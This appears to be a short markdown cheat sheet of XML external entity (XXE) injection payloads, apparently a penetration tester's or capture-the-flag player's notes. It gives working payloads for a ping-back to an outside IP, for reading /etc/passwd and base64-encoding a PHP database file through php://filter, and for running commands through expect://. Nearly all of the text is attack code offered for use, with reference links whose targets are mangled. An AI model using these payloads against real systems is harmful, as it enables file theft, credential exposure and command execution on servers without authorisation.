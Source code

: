 # xml external entity XXE

## Get ping back

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.16.161"> %xxe; ]>
<!--
# usage
<var>&xxe;</var>
-->
```

## Read File

```xml
<!-- using php-base64 when reading file that are not being loaded -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>

<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<!--
# usage
<var>&xxe;</var>
-->
```

## RCE using expect (PHP)

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id"> ]>
```

## Additional Materal

* [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
